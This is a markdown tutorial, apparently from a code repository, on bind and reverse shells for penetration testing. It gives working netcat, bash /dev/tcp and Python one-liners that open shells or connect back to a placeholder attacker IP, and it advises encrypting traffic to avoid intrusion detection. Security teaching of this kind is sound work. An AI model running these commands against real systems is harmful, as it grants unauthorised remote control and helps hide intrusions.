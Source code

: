 ```markdown
# Bind and Reverse Shells: Easy Examples and Explanations

Bind and reverse shells are two common techniques used in penetration testing to gain remote access to a target system. This document explains these concepts with easy-to-follow examples.

---

## What is a Bind Shell?

A **bind shell** is a type of shell where the target machine opens a specific port and listens for incoming connections. The attacker connects to this port to gain access to the target system.

### How It Works
1. The target machine runs a script or command to open a port and bind a shell to it.
2. The attacker connects to the open port using a tool like `netcat` to interact with the shell.

### Example: Creating a Bind Shell

#### On the Target Machine
1. **Command**:
   ```bash
   nc -lvp 4444 -e /bin/bash
   ```
   - **Explanation**:
     - `nc`: Netcat, a networking utility.
     - `-lvp`: Listen mode (`-l`), verbose output (`-v`), and specify the port (`-p`).
     - `4444`: The port number to listen on.
     - `-e /bin/bash`: Executes bash when a connection is made.

#### On the Attacker's Machine
1. **Command**:
   ```bash
   nc <target-ip> 4444
   ```
   - **Explanation**:
     - Connects to the target machine's IP address on port `4444`.

2. **Result**:
   - The attacker gains a shell on the target machine.

---

## What is a Reverse Shell?

A **reverse shell** is a type of shell where the target machine initiates a connection back to the attacker's machine. This is useful when the target is behind a firewall or NAT, making it difficult for the attacker to connect directly.

### How It Works
1. The attacker sets up a listener on their machine to wait for incoming connections.
2. The target machine runs a script or command to connect back to the attacker's machine and provide a shell.

### Example: Creating a Reverse Shell

#### On the Attacker's Machine
1. **Command**:
   ```bash
   nc -lvp 4444
   ```
   - **Explanation**:
     - Listens on port `4444` for incoming connections.

#### On the Target Machine
1. **Command**:
   ```bash
   bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
   ```
   - **Explanation**:
     - `bash -i`: Starts an interactive bash shell.
     - `>& /dev/tcp/<attacker-ip>/4444`: Redirects input and output to the attacker's IP and port.
     - `0>&1`: Redirects standard input and output.

2. **Result**:
   - The attacker gains a shell on the target machine.

---

## Comparison of Bind and Reverse Shells

| Feature          | Bind Shell                          | Reverse Shell                       |
|-------------------|-------------------------------------|-------------------------------------|
| Connection Origin | Attacker connects to the target     | Target connects to the attacker     |
| Use Case          | When the attacker can directly connect to the target | When the target is behind a firewall or NAT |
| Setup Complexity  | Simple                             | Slightly more complex               |

---

## Advanced Examples

### Bind Shell with Python
#### On the Target Machine
```bash
python3 -c 'import socket,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.bind(("0.0.0.0",4444)); s.listen(1); conn,addr=s.accept(); os.dup2(conn.fileno(),0); os.dup2(conn.fileno(),1); os.dup2(conn.fileno(),2); os.system("/bin/bash")'
```

#### On the Attacker's Machine
```bash
nc <target-ip> 4444
```

---

### Reverse Shell with Python
#### On the Target Machine
```bash
python3 -c 'import socket,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<attacker-ip>",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.system("/bin/bash")'
```

#### On the Attacker's Machine
```bash
nc -lvp 4444
```

---

## Security Considerations

- **Firewalls**: Reverse shells are often used to bypass firewalls since the target initiates the connection.
- **Encryption**: Use encrypted communication (e.g., SSH or SSL) to avoid detection by intrusion detection systems (IDS).
- **Detection**: Monitor unusual network activity, such as connections to unknown IPs or open ports.

---

By understanding and practicing these examples, you can effectively use bind and reverse shells during penetration testing engagements. Always ensure ethical use of these techniques.
```
